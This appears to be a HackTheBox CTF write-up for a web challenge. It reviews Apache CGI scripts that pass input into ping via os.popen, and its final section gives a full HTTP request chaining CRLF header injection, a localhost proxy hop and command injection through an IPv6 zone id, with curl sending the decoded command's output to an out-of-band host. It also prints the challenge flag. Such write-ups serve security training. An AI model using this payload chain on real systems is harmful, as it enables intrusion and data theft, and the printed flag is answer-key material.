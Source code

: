 ```yaml
---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
status: 3. Complete
tags:
  - Apache
  - CRLF-Injection
  - RW_inbox
---
```


# Information Gathering

## Source code review

*apache2.conf*
```xml
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

*attack-domain.py*
```py
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

*attack-ip.py*
```py
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

# Exploitation

## Apache Confusion Attacks

>[!bug] 
>The bug


## Parser Differential

>[!bug]
>The bug

## Final

```http
GET /cgi-bin/attack-domain?target=x&name=http://%0d%0aLocation:/l%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=fe80::a8bb:ccff:feee:ddf1%2525%253beval%2b$(printf%2b"\131\62\106\60\111\103\71\155\142\107\106\156\113\147\75\75"|base64%2b-d)|curl%2bmpgpmyotzaxhnesfjgkglqlekre9ma86c.oast.fun%2b-d%2b@-%26name=m3ssap0%3F%0d%0a%0d%0a HTTP/1.1
Host: 127.0.0.1
```


# Flag

>[!success] Flag
> `HTB{h4ndl1n6_m4l4k4r5_f0rc35}`
